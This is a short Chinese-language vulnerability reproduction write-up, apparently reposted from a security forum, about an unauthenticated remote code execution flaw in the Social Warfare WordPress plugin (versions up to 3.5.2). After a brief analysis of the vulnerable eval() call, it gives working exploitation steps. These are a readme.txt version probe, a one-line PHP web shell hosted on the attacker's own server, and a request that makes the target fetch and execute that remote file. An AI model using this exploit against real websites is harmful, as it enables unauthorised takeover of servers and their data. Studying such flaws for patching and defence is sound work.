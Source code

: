 # WordPress Plugin - Social Warfare<=3.5.2 RCE

> 原文：[https://www.zhihuifly.com/t/topic/3245](https://www.zhihuifly.com/t/topic/3245)

# WordPress Plugin - Social Warfare<=3.5.2 RCE

## 一、漏洞简介

2019年3月21日插件作者紧急发布了3.5.3版本以修复高危的RCE漏洞，在<=3.5.2版本中存在一处无需登录即可getshell的RCE漏洞。

## 二、漏洞影响

## 三、复现过程

### 漏洞分析

在/wp-content/plugins/social-warfare/lib/utilities/SWP_Database_Migration.php文件中有一处eval()函数，该函数将file_get_contents()读取的文件内容当做PHP代码执行导致RCE。

![image](img/0f576f9770b0579dc3c05bea5d20f571.png)

### 漏洞利用

第一步：刺探是否安装了Social Warfare插件

访问

```
http://0-sec.org/wp-content/plugins/social-warfare/readme.txt 
```

如果存在readme.txt文件则说明已经安装该插件，并且从该txt文件中可获知插件的版本。

我的本机环境为3.5.2版本。

![image](img/721382dbe06e141f412c6c138a6a3931.png)

第二步：在自己的VPS服务器上放置一个code.txt文件，并启动HTTP服务使该文件可通过HTTP访问。文件内容如下：

```
<pre>eval($_REQUEST['wpaa'])</pre> 
```

第三步：在未登陆任何账号的情况下直接访问如下链接即可getshell。

```
http://0-sec.org/wp-admin/admin-post.php?swp_debug=load_options&swp_url=http://your_ip/code.txt&wpaa=phpinfo(); 
```

![image](img/3d05415b78769fa7512f977e7413cea7.png)